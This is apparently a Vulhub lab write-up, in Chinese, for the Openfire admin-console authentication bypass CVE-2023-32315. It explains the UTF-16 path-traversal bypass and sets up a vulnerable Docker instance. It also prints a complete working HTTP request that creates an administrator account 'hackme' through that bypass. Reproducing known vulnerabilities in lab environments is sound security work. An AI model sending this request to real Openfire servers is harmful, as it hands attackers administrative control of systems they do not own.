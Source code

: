 # Openfire管理后台认证绕过漏洞 CVE-2023-32315

## 漏洞描述

Openfire 是根据开放源 Apache 许可获得许可的实时协作（RTC）服务器。

在Openfire版本4.7.4和4.6.7及以前，Openfire的Web管理后台存在一处目录穿越漏洞，这将允许攻击者绕过权限校验访问所有受限页面。

参考文档：

- https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm
- https://mp.weixin.qq.com/s/EzfB8CM4y4aNtKFJqSOM1w

## 漏洞环境

Vulhub执行如下命令启动一个4.7.4版本的Openfire:

```
docker compose up -d
```

服务器启动后，访问`http://your-ip:9090`将会被强制跳转到登录页面。

![image-20230619102703457](images/image-20230619102703457.png)

## 漏洞复现

十多年前，Openfire管理后台中曾被发现一处路径穿越漏洞，CVE-2008-6508。攻击者可以利用`/setup/setup-/../../[page].jsp`来绕过权限校验并访问任意后台页面。

从那以后，Openfire增加了对于路径穿越问题的防护策略，用以抵御这个漏洞。但是因为后来内置的Web服务器的升级，引入了对UTF-16字符支持的非标准URL，而前面的防护策略并没有考虑到这一点。

这样也导致我们可以使用UTF-16字符来绕过路径穿越的防护，再次复活路径穿越漏洞，`/setup/setup-/%u002e%u002e/%u002e%u002e/[page].jsp`。

我们可以发送如下数据包，利用该路径穿越漏洞创建一个新的管理员：

```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=hackme&name=&email=&password=hackme&passwordConfirm=hackme&isadmin=on&create=Create+User HTTP/1.1
Host: your-ip:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken
```

虽然这个请求的响应包中包含异常，但实际上新用户已经被创建，账号密码均为`hackme`：

![image-20230619102915783](images/image-20230619102915783.png)

之后我们便可以使用这个账号登录管理后台： 

![image-20230619103124163](images/image-20230619103124163.png)